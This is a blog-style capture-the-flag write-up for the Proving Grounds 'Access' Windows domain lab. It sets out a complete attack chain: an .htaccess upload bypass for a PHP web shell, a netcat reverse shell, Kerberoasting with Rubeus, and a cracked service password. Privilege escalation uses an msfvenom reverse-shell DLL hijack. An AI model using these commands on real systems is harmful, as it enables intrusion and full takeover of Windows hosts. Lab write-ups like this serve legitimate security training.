```yaml
---
title: "Proving grounds Play: Access"
layout: post
date: 2023-08-16 12:00
categories: writeup
---
```


Proving grounds Practice - Access CTF writeup.

## Walkthough on Youtube

[![youtube](/assets/images/CTF/Proving_Grounds/Access/yt.png)](https://youtu.be/h1Br5umYxwc)

## Nmap

```sh
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-08-16 07:12:03Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
49773/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: SERVER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Fuzzing

### Directories

```text
/uploads
/assets
/icons
/forms
```                                

## File Upload Vulnerability

![Upload 01](/assets/images/CTF/Proving_Grounds/Access/up1.png)

Upload a `.htaccess` file to overwrite the file upload configuration in the apache.

**Content of .htacess file**

```text
AddType application/x-httpd-php .evil
```

Upload the php remote code execution code to the server with extension as `rce.evil`

![Upload 02](/assets/images/CTF/Proving_Grounds/Access/up2.png)

### RCE

![RCE 01](/assets/images/CTF/Proving_Grounds/Access/rce1.png)

- Upload netcat windows binary to the server.
- Obtain reverse shell by executing netcat command.

![RCE 02](/assets/images/CTF/Proving_Grounds/Access/rce2.png)

- Transfer PowerView.ps1 to the attacking machine.

**Extract Users Information**

```text
-------------------------------------------------------------------------------
Administrator            Guest                    krbtgt                   
svc_apache               svc_mssql                
The command completed successfully.
```

## Kerberos Abuse

The user `svc_mssql` has Service Principal Name, hence kerberoasting takes place.

```text
serviceprincipalname          : MSSQLSvc/DC.access.offsec
```

[Rubeus.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe)

Run as below to obtain NTLM Hash.

```powershell
PS C:\xampp\tmp> .\Rubeus.exe kerberoast /nowrap
```

Copy the hash and crack it using john.

**Crack the hash**

![Crackthehash 02](/assets/images/CTF/Proving_Grounds/Access/crackhash.png)

Transfer [Invoke-Runas.ps1](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-Runas.ps1) to the attacking machine. The script will allow us to run commands as certain users in the system using the username and password.

Obtain revese shell for user `svc_mssql` by using the invoke command to trigger the netcat reverse shell.

```powershell
Import-Module .\Invoke-RunasCs.ps1
Invoke-RunasCs svc_mssql trustno1 'C:\xampp\htdocs\uploads\nc.exe <IP> 4444 -e cmd.exe'
```

![Revshell 01](/assets/images/CTF/Proving_Grounds/Access/revshell1.png)

## Privilege Escalation

**Abuse SeChangeNotifyPrivilege.**

```powershell
PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                      State   
============================= ================================ ========
SeMachineAccountPrivilege     Add workstations to domain       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking         Enabled 
SeManageVolumePrivilege       Perform volume maintenance tasks Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set   Disabled
```

Bypass traverse checking allows us to perform seManageVolumeAbuse by performing dll hijacking.

[SeManageVolumeAbuse](https://github.com/CsEnox/SeManageVolumeExploit)

Transfer the binary to the remote machine and run as `svc_mssql` user.

```powershell
PS C:\xampp\tmp> .\SeManageVolumeExploit.exe
.\SeManageVolumeExploit.exe
Entries changed: 916
DONE 
```

Create a dll file with windows reverse shell.

```sh
msfvenom -f dll -a x64 -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=9090 -o Printconfig.dll
```

Transfer the dll file to the attacking machine and overwrite the file to the below location.

`C:\Windows\system32\spool\drivers\x64\3\Printconfig.dll`

![Copy](/assets/images/CTF/Proving_Grounds/Access/copy.png)

Switch to powershell and use the below trigger to obtain root.

```powershell
$type = [Type]::GetTypeFromCLSID("{854A20FB-2D44-457D-992F-EF13785D2B51}")
$object = [Activator]::CreateInstance($type)
```
[More...](https://github.com/CsEnox/SeManageVolumeExploit)

![trigger](/assets/images/CTF/Proving_Grounds/Access/trigger.png)

**Root shell Obtained**

![trigger](/assets/images/CTF/Proving_Grounds/Access/root.png)

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).